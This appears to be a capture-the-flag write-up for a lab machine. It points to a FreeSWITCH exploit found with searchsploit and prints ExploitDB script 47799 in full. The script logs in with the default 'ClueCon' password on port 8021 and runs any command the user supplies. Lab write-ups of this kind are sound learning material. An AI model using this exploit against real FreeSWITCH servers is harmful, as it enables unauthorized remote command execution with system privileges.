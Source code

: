 # Exploit

Use `searchsploit` to view modules to exploit the `freeswitch` service

![Untitled](Flatline_images/Untitled.png)

Get the file `47799.txt` to the current directory and rename it to `47799.py` because it was written in `python3` or download it from [ExploitDB](https://www.exploit-db.com/exploits/47799)

```python
# Exploit Title: FreeSWITCH 1.10.1 - Command Execution
# Date: 2019-12-19
# Exploit Author: 1F98D
# Vendor Homepage: https://freeswitch.com/
# Software Link: https://files.freeswitch.org/windows/installer/x64/FreeSWITCH-1.10.1-Release-x64.msi
# Version: 1.10.1
# Tested on: Windows 10 (x64)
#
# FreeSWITCH listens on port 8021 by default and will accept and run commands sent to
# it after authenticating. By default commands are not accepted from remote hosts.
#
# -- Example --
# root@kali:~# ./freeswitch-exploit.py 192.168.1.100 whoami
# Authenticated
# Content-Type: api/response
# Content-Length: 20
#
# nt authority\system
#

#!/usr/bin/python3

from socket import *
import sys

if len(sys.argv) != 3:
    print('Missing arguments')
    print('Usage: freeswitch-exploit.py <target> <cmd>')
    sys.exit(1)

ADDRESS=sys.argv[1]
CMD=sys.argv[2]
PASSWORD='ClueCon' # default password for FreeSWITCH

s=socket(AF_INET, SOCK_STREAM)
s.connect((ADDRESS, 8021))

response = s.recv(1024)
if b'auth/request' in response:
    s.send(bytes('auth {}\n\n'.format(PASSWORD), 'utf8'))
    response = s.recv(1024)
    if b'+OK accepted' in response:
        print('Authenticated')
        s.send(bytes('api system {}\n\n'.format(CMD), 'utf8'))
        response = s.recv(8096).decode()
```